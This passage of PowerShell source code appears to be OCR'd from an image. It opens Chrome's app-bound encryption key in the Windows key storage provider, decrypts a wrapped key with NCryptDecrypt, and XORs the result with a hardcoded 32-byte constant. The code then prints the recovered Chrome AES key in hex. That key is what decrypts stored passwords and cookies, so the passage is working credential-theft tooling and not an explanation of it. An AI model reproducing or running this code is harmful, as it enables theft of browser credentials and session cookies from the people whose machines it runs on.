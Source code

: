 ```powershell
    $result = [SecurityInterop]::NCryptOpenStorageProvider([ref]$providerHandle, "Microsoft Software Key Storage Provider", 0)
    if ($result -ne 0) { throw "NCryptOpenStorageProvider failed: $result" }
    Write-Host "[+] NCryptOpenStorageProvider: Storage provider opened"
    
    try {
        # Open Chrome key
        Write-Host "[*] NCryptOpenKey: Opening Chrome encryption key"
        $keyHandle = [IntPtr]::Zero
        $result = [SecurityInterop]::NCryptOpenKey($providerHandle, [ref]$keyHandle, "Google Chromekey1", 0, 0)
        if ($result -ne 0) { throw "NCryptOpenKey failed: $result" }
        Write-Host "[+] NCryptOpenKey: Chrome key opened"
        
        try {
            # Get output size
            Write-Host "[*] NCryptDecrypt: Getting output buffer size"
            $outputSize = 0
            $result = [SecurityInterop]::NCryptDecrypt($keyHandle, $encryptedKeyBytes, $encryptedKeyBytes.Length, [IntPtr]::Zero, $null, 0, [ref]$outputSize, [SecurityInterop]::NCRYPT_SILENT_FLAG)
            if ($result -ne 0) { throw "NCryptDecrypt (size query) failed: $result" }
            Write-Host "[+] NCryptDecrypt: Output buffer size: $outputSize bytes"
            
            # Decrypt to get intermediate decrypted AES key
            Write-Host "[*] NCryptDecrypt: Decrypting to obtain intermediate decrypted AES key"
            $outputBuffer = [byte[]]::new($outputSize)
            $result = [SecurityInterop]::NCryptDecrypt($keyHandle, $encryptedKeyBytes, $encryptedKeyBytes.Length, [IntPtr]::Zero, $outputBuffer, $outputBuffer.Length, [ref]$outputSize, [SecurityInterop]::NCRYPT_SILENT_FLAG)
            if ($result -ne 0) { throw "NCryptDecrypt failed: $result" }
            
            $intermediateAesKey = $outputBuffer[0..($outputSize - 1)]
            $intermediateHex = -join ($intermediateAesKey | ForEach-Object { $_.ToString("x2") })
            Write-Host "[+] NCryptDecrypt: Intermediate decrypted AES key obtained"
            Write-Host "[*] Intermediate decrypted key (hex): $intermediateHex"
            Write-Host "[*] Intermediate decrypted key length: $($intermediateAesKey.Length) bytes"
            
            # Apply XOR to get final decrypted AES key
            Write-Host "[*] XOR: Applying XOR operation for final decrypted AES key"
            $xorKey = [byte[]]@(0xCC, 0xF8, 0xA1, 0xCE, 0xC5, 0x66, 0x05, 0xB8, 0x51, 0x75, 0x52, 0xBA, 0x1A, 0x2D, 0x06, 0x1C, 0x03, 0xA2, 0x9E, 0x90, 0x27, 0x4F, 0xB2, 0xFC, 0xF5, 0x9B, 0xA4, 0xB7, 0x5C, 0x39, 0x23, 0x90)
            
            $finalAesKey = Invoke-ByteXor -Bytes1 $intermediateAesKey -Bytes2 $xorKey
            $finalHex = -join ($finalAesKey | ForEach-Object { $_.ToString("x2") })
            Write-Host "[+] XOR: Final decrypted AES key derivation successful"
            Write-Host "[+] Final decrypted AES key (hex): $finalHex" -ForegroundColor Yellow
            Write-Host "[+] Final decrypted AES key length: $($finalAesKey.Length) bytes"
            
            return $finalAesKey
        }
        finally {
            if ($keyHandle -ne [IntPtr]::Zero) {
                [SecurityInterop]::NCryptFreeObject($keyHandle) | Out-Null
                Write-Host "[*] NCryptFreeObject: Key handle released"
            }
        }
    }
    finally {
        if ($providerHandle -ne [IntPtr]::Zero) {
            [SecurityInterop]::NCryptFreeObject($providerHandle) | Out-Null
            Write-Host "[*] NCryptFreeObject: Provider handle released"
        }
```